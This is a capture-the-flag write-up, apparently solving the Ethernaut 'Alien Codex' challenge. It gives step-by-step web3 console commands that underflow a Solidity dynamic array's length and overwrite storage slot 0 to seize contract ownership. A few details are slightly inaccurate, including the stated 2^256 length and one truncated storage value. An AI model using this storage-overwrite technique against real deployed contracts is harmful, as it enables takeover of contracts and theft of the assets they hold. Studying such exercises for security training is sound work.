

# How to solve the challenge
- [Need to know How Ethereum Storage work](https://docs.alchemy.com/docs/smart-contract-storage-layout#how-are-state-variables-stored-in-smart-contract-storage-slots)
- [Need to know How dynamic array work](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html#mappings-and-dynamic-arrays)

## <a id="ethereum-storage"></a> Ethereum Storage 



```ruby
await contract.owner()
'0x0BC04aa6aaC163A6B3667636D798FA053D43BD11'
```

Get storage at Alien codex contract index 0 that contain contact(bool) + owner(address)

```ruby
await web3.eth.getStorageAt(contract.address, 0, console.log());
'0x0000000000000000000000000bc04aa6aac163a6b3667636d798fa053d43bd11'
```

### MakeContact

```ruby
await contract.makeContact();
await contract.contract();
true
```

When call makeContact() function contact value is true. Contract storage index 0 is change.

```ruby
await web3.eth.getStorageAt(contract.address, 0, console.log());
'0x0000000000000000000000010bc04aa6aac163a6b3667636d798fa053d43bd1'
```

### Retract

```Ruby    
function retract() public contacted {
        codex.length--;
}
```

This will decrease the codex. length by 1. It get an underflow. 
This will change the codex.length to be 2<sup>256</sup>.
That mean total `Storage` capacity of the contract. 
This will allow us access to any variables stored in the contract.

```Ruby 
await contract.retract()
```

### Revise

```Ruby    
function revise(uint i, bytes32 _content) public contacted {
    codex[i] = _content;
}
```

#### Need to know
- [Fundamental store data in smart contract storage](./note.md)
- [How are state variables stored in smart contract storage slots?](https://docs.alchemy.com/docs/smart-contract-storage-layout#how-are-state-variables-stored-in-smart-contract-storage-slots)
- [How are dynamically-sized state variables stored in smart contract memory?](https://docs.alchemy.com/docs/smart-contract-storage-layout#how-are-dynamically-sized-state-variables-stored-in-smart-contract-memory)


Call the **`revise(i, _content)`** to change `Storage` value at slot 0 (contact(bool) + owner(address)
 - index (i)
	- ownerAddressIndex = `Storage` slot 0
	- ownerAddressIndex = `Storage` length + (bool) contract variables length - array length
	- ownerAddressIndex = ((2 ** 256) - 1) + 1 - uint(keccak256(abi.encode(1)));
	- 
        ```Ruby
        ownerAddressIndex = BigInt(2**256) - BigInt(web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"],[1])))```
 - value (_content)
	- We need to parse player address to bytes32. Player address have 20 bytes, 
    so we need to add more 12 bytes to be 32 bytes
	- 32 bytes = 64 hex = we need to add 0, 24 round
	- 
        ```Ruby 
        playerAddress = '0x' + '0'.repeat(24) + player.slice(2);
        ```

        or

        ```Ruby 
        playerAddress = web3.utils.padLeft(player, 24);
        ```

```Ruby 
await contract.revise(ownerAddressIndex, playerAddress)
await contract.owner()
'0x6507A5F34D98B8345e182EF588AB14A7F4E714AE'
```

### For check TX

```Ruby 
await contract.address
'0x73311fFBED20f72C8E76F583A15DA81eE5819171'
```

https://sepolia.etherscan.io/address/0x73311fFBED20f72C8E76F583A15DA81eE5819171

### Result

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of 2<sup>256</sup>. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://weka.medium.com/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)